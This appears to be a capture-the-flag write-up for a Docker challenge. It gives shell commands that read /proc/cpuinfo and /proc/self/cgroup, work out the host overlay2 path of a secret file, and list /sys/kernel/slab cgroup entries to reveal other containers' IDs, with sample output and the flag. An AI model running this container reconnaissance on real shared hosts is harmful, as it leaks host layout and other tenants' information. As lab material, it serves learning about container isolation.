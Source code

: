 First acquire the needed information:  
\#1 CPU Model  
`cat /proc/cpuinfo | grep "model name" | head -n1 | cut -d' ' -f3-  `  
Ex.: Intel(R) Xeon(R) Gold 6140 CPU @ 2.30GHz

\#2 Container ID  
`grep -Eow "docker/.*" /proc/self/cgroup | head -n1 | cut -d'/' -f2`  
Ex.: 3eec8fef3ed868e8f1a8c96a8e23e1f5076bc46e36db829fd0ebd0f28b166fb5

\#3 The host path of the `/secret` file  
`echo "/var/lib/docker/overlay2/"$(mount | grep -o workdir=.*, | cut -d'/' -f6)"/diff/secret"`  
Ex.: /var/lib/docker/overlay2/f575721f8fc8895c2a6f217e54b51e7da14646b3aba2daf1f325ec6eea28af4c/diff/secret

\#4 Get the host container ID  
Run a session in the background  
`socat - UNIX-CONNECT:/oracle.sock &`

Find the socket-related connection files
`find / -iname "*sock*" | grep docker`  
```
/sys/kernel/slab/:A-0000192/cgroup/cred_jar(602:docker.socket)
/sys/kernel/slab/:A-0001024/cgroup/PING(602:docker.socket)
/sys/kernel/slab/sock_inode_cache/cgroup/sock_inode_cache(602:docker.socket)
/sys/kernel/slab/sock_inode_cache/cgroup/sock_inode_cache(1058:docker.service)
/sys/kernel/slab/kmalloc-64/cgroup/kmalloc-64(602:docker.socket)
/sys/kernel/slab/dentry/cgroup/dentry(602:docker.socket)
/sys/kernel/slab/:A-0000064/cgroup/anon_vma_chain(602:docker.socket)
/sys/kernel/slab/anon_vma/cgroup/anon_vma(602:docker.socket)
/sys/kernel/slab/inode_cache/cgroup/inode_cache(602:docker.socket)
find: '/root': Permission denied
/sys/kernel/slab/:A-0000256/cgroup/filp(602:docker.socket)
/sys/kernel/slab/:A-0000208/cgroup/vm_area_struct(602:docker.socket)
/sys/kernel/slab/:A-0000128/cgroup/pid(602:docker.socket)
find: '/var/cache/apt/archives/partial': Permission denied
find: '/var/cache/ldconfig': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/proc/tty/driver': Permission denied
```

This is the one that matters:
`ls  /sys/kernel/slab/:A-0000256/cgroup/` 
```
'filp(1017:polkit.service)'
'filp(102:sys-kernel-debug.mount)'
'filp(1045:cloud-config.service)'
'filp(1058:docker.service)'
'filp(115:sys-kernel-tracing.mount)'
'filp(12342:session-19.scope)'
'filp(128:systemd-journald.service)'
'filp(1602:init.scope)'
'filp(1719:snap-core18-1944.mount)'
'filp(1732:snap-snapd-10707.mount)'
'filp(1745:snapd.service)'
'filp(1758:snap-lxd-19032.mount)'
'filp(18076:supervisor.service)'
'filp(2296:user@0.service)'
'filp(2304:dbus.socket)'
'filp(238:sys-fs-fuse-connections.mount)'
'filp(251:sys-kernel-config.mount)'
'filp(31174:accounts-daemon.service)'
'filp(355:multipathd.service)'
'filp(368:boot-efi.mount)'
'filp(37472:4bc07b43dbcaef433faab8ec71261d3bb3a9098d89db3e312f54b87a59f9fb72)'
'filp(37863:3eec8fef3ed868e8f1a8c96a8e23e1f5076bc46e36db829fd0ebd0f28b166fb5)'
'filp(381:snap-core18-1885.mount)'
'filp(394:snap-lxd-16922.mount)'
'filp(407:snap-snapd-9607.mount)'
'filp(485:systemd-timesyncd.service)'
'filp(537:systemd-networkd.service)'
'filp(563:systemd-resolved.service)'
'filp(576:cloud-init.service)'
'filp(589:systemd-udevd.service)'
'filp(602:docker.socket)'
'filp(615:snapd.socket)'
'filp(667:atd.service)'
'filp(680:containerd.service)'
'filp(693:cron.service)'
'filp(706:dbus.service)'
'filp(732:do-agent.service)'
'filp(76:dev-hugepages.mount)'
'filp(784:irqbalance.service)'
'filp(810:rsyslog.service)'
'filp(849:ssh.service)'
'filp(875:systemd-logind.service)'
'filp(89:dev-mqueue.mount)'
'filp(961:serial-getty@ttyS0.service)'
'filp(993:getty@tty1.service)'
```

Notice the lines
```
'filp(37472:4bc07b43dbcaef433faab8ec71261d3bb3a9098d89db3e312f54b87a59f9fb72)'
'filp(37863:3eec8fef3ed868e8f1a8c96a8e23e1f5076bc46e36db829fd0ebd0f28b166fb5)'
```
One is your container's ID, the other is the host container's. Put that `3eec8fef3[...]' is your your container ID, the other one is the host's. Use it in both Level 5 and Level 6 questions.


Start the session with the socket:  
`socat - UNIX-CONNECT:/oracle.sock`

#### [Level 1] What is the full *cpu model* model used?
Info \#1
  
#### [Level 2] What is your *container id*?  
Info \#2
  
#### [Level 3] Let me check if you truly given me your container id. I created a /secret file on your machine. What is the hidden secret?
Type anything to exit the session. Leave this running on the background and start a new session on the socket. The backgrounded command will echo you the new secret value:  
`while [ true ]; do sleep 5; cat /secret; echo ""; done &`  
Copy the new value when it's echoed and give it to the program.  

#### [Level 4] Okay but... where did I actually write it? What is the path on the host that I wrote the /secret file to which then appeared in your container? (ps: there are multiple paths which you should be able to figure out but I only match one of them)  
Info \#3

#### [Level 5] Good! Now, can you give me an id of any *other* running container?  
Info \#4  
4bc07b43dbcaef433faab8ec71261d3bb3a9098d89db3e312f54b87a59f9fb72  

#### [Level 6] Now, let's go with the real and final challenge. I, the Docker Oracle, am also running in a container. What is my container id?
Info \#4  
 4bc07b43dbcaef433faab8ec71261d3bb3a9098d89db3e312f54b87a59f9fb72

```
[Levels cleared] Well done! Here is your flag!
justCTF{maaybe-Docker-will-finally-fix-this-after-this-task?}

Good job o/
```

Telegram
